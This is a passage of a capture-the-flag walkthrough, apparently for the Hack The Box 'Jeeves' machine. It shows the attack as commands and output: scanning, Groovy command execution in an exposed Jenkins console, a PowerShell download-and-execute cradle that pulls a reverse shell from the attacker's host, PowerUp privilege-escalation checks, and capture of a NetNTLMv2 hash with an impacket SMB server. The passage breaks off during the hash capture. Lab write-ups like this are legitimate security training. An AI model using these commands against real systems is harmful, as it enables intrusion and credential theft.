#### Jeeves

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)
- [Pass The Hash Attack](#pass-the-hash-attack)
- [Alternate Method](#alternate-method)
- [Reference](#reference)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 1057  bytes 145108 (141.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 665  bytes 100578 (98.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 30  bytes 1506 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 30  bytes 1506 (1.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::dcf9:6a12:71ae:bc7d  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 78  bytes 7028 (6.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 86  bytes 7044 (6.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/jeeves# nmap -sV -sC -oA jeeves.nmap 10.10.10.63
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-27 21:45 EDT
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 21:47 (0:00:00 remaining)
Nmap scan report for 10.10.10.63
Host is up (0.22s latency).
Not shown: 996 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m37s, deviation: 0s, median: 4h59m37s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2018-05-28 02:46:52
|_  start_date: 2018-05-21 03:19:37

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.47 seconds
root@kali:~/jeeves#
```

###### Web Enumeration



```sh
root@kali:~/jeeves# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.63 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
=====================================================
```

```sh
root@kali:~# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.63:50000 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/askjeeves (Status: 302)
```

```
http://10.10.10.63
```









```
http://10.10.10.63:50000/askjeeves/
```







```
cmd = "whoami"
println cmd.execute().text
```



###### Reverse Shell

[`nishang `](https://github.com/samratashok/nishang)

```sh
root@kali:~/jeeves# mkdir www
root@kali:~/jeeves# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
--2018-05-28 00:54:32--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: ‘Invoke-PowerShellTcp.ps1’

Invoke-PowerShellTcp.ps1                           100%[================================================================================================================>]   4.24K  --.-KB/s    in 0s

2018-05-28 00:54:32 (59.9 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]

root@kali:~/jeeves#
root@kali:~/jeeves# nano Invoke-PowerShellTcp.ps1
root@kali:~/jeeves# mv rev.ps1 www/
root@kali:~/jeeves# cd www/
root@kali:~/jeeves/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.63 - - [28/May/2018 01:02:05] "GET /rev.ps1 HTTP/1.1" 200 -
```

```
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/rev.ps1')" """
println cmd.execute().text
```



```sh
root@kali:~/jeeves/www# nc -nlvp 8090
listening on [any] 8090 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.63] 49678
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>
```

###### Privilege Escalation

[`PowerSploit`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)

```sh
root@kali:~/jeeves/www# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
--2018-05-28 01:08:34--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.52.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.52.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: ‘PowerUp.ps1’

PowerUp.ps1                                        100%[================================================================================================================>] 586.50K  1.68MB/s    in 0.3s

2018-05-28 01:08:34 (1.68 MB/s) - ‘PowerUp.ps1’ saved [600580/600580]

root@kali:~/jeeves/www#
```

```sh
root@kali:~/jeeves/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.63 - - [28/May/2018 01:02:05] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.63 - - [28/May/2018 01:09:18] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

```sh
PS C:\Users\Administrator\.jenkins> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/PowerUp.ps1')
PS C:\Users\Administrator\.jenkins> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2324
ProcessId   : 4004
Name        : 4004
Check       : Process Token Privileges

ServiceName                     : jenkins
Path                            : "C:\Users\Administrator\.jenkins\jenkins.exe"
ModifiableFile                  : C:\Users\Administrator\.jenkins\jenkins.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : JEEVES\kohsuke
StartName                       : .\kohsuke
AbuseFunction                   : Install-ServiceBinary -Name 'jenkins'
CanRestart                      : False
Name                            : jenkins
Check                           : Modifiable Service Files

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files


PS C:\Users\Administrator\.jenkins> Get-ChildItem : Access to the path 'C:\ProgramData\VMware\VMware Tools\GuestProxyData\trusted' is denied.
At line:4516 char:21
+ ... $XMlFiles = Get-ChildItem -Path $AllUsers -Recurse -Include 'Groups.x ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\ProgramData\...oxyData\trusted:String) [Get-ChildItem], Unauthoriz
   edAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand


PS C:\Users\Administrator\.jenkins>
```

```sh
PS C:\Users\Administrator\.jenkins> cd ..\..\
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/3/2017  11:07 PM                Administrator
d-----        11/5/2017   9:17 PM                DefaultAppPool
d-----        11/3/2017  11:19 PM                kohsuke
d-r---       10/25/2017   4:46 PM                Public


PS C:\Users> cd kohsuke
PS C:\Users\kohsuke> dir


    Directory: C:\Users\kohsuke


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/3/2017  10:51 PM                .groovy
d-r---        11/3/2017  11:15 PM                Contacts
d-r---        11/3/2017  11:19 PM                Desktop
d-r---        11/3/2017  11:18 PM                Documents
d-r---        11/3/2017  11:15 PM                Downloads
d-r---        11/3/2017  11:15 PM                Favorites
d-r---        11/3/2017  11:22 PM                Links
d-r---        11/3/2017  11:15 PM                Music
d-r---        11/3/2017  11:22 PM                OneDrive
d-r---        11/4/2017   3:10 AM                Pictures
d-r---        11/3/2017  11:15 PM                Saved Games
d-r---        11/3/2017  11:16 PM                Searches
d-r---        11/3/2017  11:15 PM                Videos


PS C:\Users\kohsuke> cd Desktop
PS C:\Users\kohsuke\Desktop> dir


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/3/2017  11:22 PM             32 user.txt


PS C:\Users\kohsuke\Desktop> type user.txt
e3232272596fb47950d59c4cf1e7066a
PS C:\Users\kohsuke\Desktop>
```

```sh
PS C:\Users\kohsuke\Desktop> cd ..
PS C:\Users\kohsuke> cd Documents
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx


PS C:\Users\kohsuke\Documents>
```

```sh
root@kali:~/jeeves/www# impacket-smbserver --help
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support]
                    shareName sharePath

This script will launch a SMB Server and add a share specified as an argument.
You need to be root in order to bind to port 445. No authentication will be
enforced. Example: smbserver.py -comment 'My share' TMP /tmp

positional arguments:
  shareName         name of the share to add
  sharePath         path of the share to add

optional arguments:
  -h, --help        show this help message and exit
  -comment COMMENT  share's comment to display when asked for shares
  -debug            Turn DEBUG output ON
  -smb2support      SMB2 Support (experimental!)
root@kali:~/jeeves/www#
```

```sh
root@kali:~/jeeves/www# impacket-smbserver myshare `pwd`
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49681)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
[*] kohsuke::JEEVES:4141414141414141:0f5fe21a4132087e911f3d2825038b9f:010100000000000080de8fb643f6d30149d4cf4bc27114be000000000100100075004d00630061005600660074005a000200100042005a0063004500740051006b004b000300100075004d00630061005600660074005a000400100042005a0063004500740051006b004b000700080080de8fb643f6d30106000400020000000800300030000000000000000000000000300000965279eafe9d9894e672c12baa46c04cbe69f504d0533745defd036a8ef6e58e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003600000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:MYSHARE)
[*] Handle: [Errno 104] Connection reset by peer
[*] Closing down connection (10.10.10.63,49681)
[*] Remaining connections []
[*] Incoming connection (10.10.10.63,49682)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
